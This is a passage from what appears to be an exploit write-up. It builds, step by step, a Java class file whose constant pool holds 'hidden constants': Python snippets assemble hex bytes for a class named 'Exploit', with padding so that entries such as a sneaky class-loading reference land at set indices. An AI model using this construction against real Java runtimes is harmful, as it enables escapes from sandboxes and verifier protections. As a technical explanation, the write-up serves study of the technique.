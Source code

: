 There are two things to note here. First, we couldn’t define `[super_cls]` yet and had to leave it as a placeholder, since the bytecode we wrote previously requires its index to end in `05`. Second, `[defineClass_utf]`, `[defineClass_desc_utf]`, etc. are not hidden constants. We defined them previously using ordinary string literal `ldc`s. However, they are _referenced_ by hidden constants and thus have to appear at index `0101` or higher, which is why we had to add all those dummy strings before them earlier.

This leads to the following Python code to construct the hidden constants we’ve defined so far, where `----` is a placeholder to be filled in with `[super_cls]` later.

```
s = '010101'.decode('hex') + 'Exploit/xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'
s += '07010C0C010101030A010D010E0C010501070A----0110'.decode('hex')


```

Next comes `[super_cls]`. The next available index that ends in `05` is `0205`, but we’re currently at index `0112`, so we’ll have to add a bunch of dummy constants again to fill up the space. Luckily, since we’re creating the hidden constants directly rather than going through ASM, we don’t have to worry about duplicates, and can just repeat the same constant over and over. Specifically, we’ll just use the byte pattern `03 01010101`, which corresponds to the int constant `Int 0x01010101`.

```
s += '0301010101'.decode('hex') * (0x205 - 0x112)


```

Now we can define `[super_cls]`, which is just `07 0109`, and also fill in the earlier placeholders with its index (`0205`) . This brings us to

```
s = '010101'.decode('hex') + 'Exploit/xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'
s += '07010C0C010101030A010D010E0C010501070A02050110'.decode('hex')
s += '0301010101'.decode('hex') * (0x205 - 0x112)
s += '070109'.decode('hex')


```

What next? Recall that the bytecode we wrote earlier had two constraints on the constant pool:

```
[super_cls] = **05
[sneakyLoad_utf] = 03**


```

We already solved the first one, but still have to deal with the second. Therefore, we’ll skip ahead to the first compatible index (`0300`):
